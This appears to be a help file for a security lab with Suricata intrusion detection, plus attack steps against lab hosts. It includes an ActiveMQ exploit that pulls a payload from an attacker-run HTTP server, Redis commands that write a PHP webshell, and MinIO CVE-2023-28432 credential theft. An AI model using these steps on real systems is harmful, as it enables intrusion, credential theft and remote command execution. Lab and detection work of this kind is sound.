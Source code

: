 # Help

## General

### Resize vagrant disk
```bash
df -h
lsblk
sudo pvresize /dev/sda3
sudo lvextend -l +100%FREE /dev/mapper/ubuntu--vg-ubuntu--lv
sudo resize2fs /dev/mapper/ubuntu--vg-ubuntu--lv
sudo cfdisk /dev/sda
```

### Check iptables:
```bash
sudo iptables -L DOCKER-USER -nv --line-numbers
```

### Check Suricata logs:
```bash
journalctl -u suricata.service -b
sudo tail -n 200 /var/log/suricata/suricata.log
sudo tail -n 0 -f /var/log/suricata/fast.log
sudo tail -n 0 -f /var/log/suricata/eve.json | jq .
```

### Run Suricata:
```bash
sudo suricata -c /etc/suricata/suricata.yaml -q 0
```

### Run NMAP scan:
```bash
nmap -sS victim     # SYN scan
nmap -sX victim     # Xmas scan
nmap -sU victim     # UDP scan
nmap -O victim      # OS detection
```

## Vulnerabilities

### 1. ActiveMQ
```bash
nmap -sV -p 61616,8161 172.20.0.101
curl -I http://172.20.0.101:8161/
cd /opt
python3 -m http.server 8888
python3 poc.py -i 172.20.0.101 -p 61616 -u http://172.20.0.10:8888/poc.xml
```

### 2. Redis Unauthorized Access + Command Execution
```bash
nmap -sV -p 6379 172.20.0.102
redis-cli -h 172.20.0.102 ping
redis-cli -h 172.20.0.102
>>> info server
>>> config get "*"
>>> keys *
>>> dbsize
>>> config set dir /tmp
>>> config set dbfilename webshell.php
>>> set test "<?php system($_GET['cmd']); ?>"
>>> save
```

### 3. Minio
```bash
nmap -sV -p 9000,9001 172.20.0.103
curl -I http://172.20.0.103:9000/
curl -I http://172.20.0.103:9001/
curl -X POST http://172.20.0.103:9000/minio/bootstrap/v1/verify \
    -H "Content-Type: application/x-www-form-urlencoded" \
    -d "" | jq '.MinioEnv.MINIO_ROOT_USER, .MinioEnv.MINIO_ROOT_PASSWORD'
```

Then we can use the AWS CLI to exploit the vulnerability
```bash
aws configure set aws_access_key_id minioadmin
aws configure set aws_secret_access_key minioadmin-vulhub
aws configure set region us-east-1
aws --endpoint-url http://172.20.0.103:9000 s3 mb s3://cve-2023-28432-pwned make_bucket: cve-2023-28432-pwned
echo "MinIO Cluster compromised via CVE-2023-28432!" > cve_exploit_proof.txt
echo "Stolen credentials: minioadmin:minioadmin-vulhub" >> cve_exploit_proof.txt
aws --endpoint-url http://172.20.0.103:9000 s3 cp cve_exploit_proof.txt s3://cve-2023-28432-pwned/
aws --endpoint-url http://172.20.0.103:9000 s3 ls s3://cve-2023-28432-pwned/
```

